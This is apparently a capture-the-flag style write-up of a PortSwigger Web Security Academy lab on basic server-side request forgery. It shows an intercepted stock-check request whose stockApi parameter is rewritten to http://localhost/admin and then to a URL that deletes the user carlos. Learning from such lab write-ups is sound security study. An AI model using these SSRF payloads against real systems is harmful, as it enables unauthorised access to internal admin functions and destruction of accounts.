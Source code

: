 

---

- **Target** SSRF lab - Basic SSRF against the local server
- **Author:** sonyahack1
- **Date:** 22.04.2025

---


## Intercepting a request for the stock check function

```html

POST /product/stock HTTP/2
Host: 0aa7006603f274d1827406f30014005b.web-security-academy.net
Cookie: session=tPPc42PtFUDiOHHe8jIx*********
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa7006603f274d1827406f30014005b.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0aa7006603f274d1827406f30014005b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```bash
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D6%26storeId%3D1
```

> url decode the request body and use **<@urlencode></@urlencode>**:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1</@urlencode>

```

> i need to access the admin panel at **localhost** and delete the user Carlos.
> That is I replace the request from the server side to make a request where I need and get the result.
> i change the request to **http://localhost/admin**:

```bash

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```

> Result:

![admin_interface](./screenshots/admin_interface.png)

> i'm sending a request for delete user Carlos:

```bash

stockApi=<@urlencode>http://localhost/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)


